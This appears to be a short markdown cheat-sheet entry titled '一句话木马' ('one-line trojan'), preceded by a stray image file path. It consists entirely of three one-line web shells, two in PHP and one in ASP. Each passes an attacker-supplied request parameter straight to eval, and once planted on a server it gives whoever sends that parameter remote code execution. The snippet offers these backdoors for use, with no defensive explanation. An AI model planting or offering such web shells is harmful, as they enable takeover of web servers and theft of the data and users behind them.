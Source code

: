 # other

## 一句话木马

```php
<?php @eval($_REQUEST['c']); ?>
<?php @eval($_POST['c']); ?>
```

```asp
<% eval request("xx")%>
```

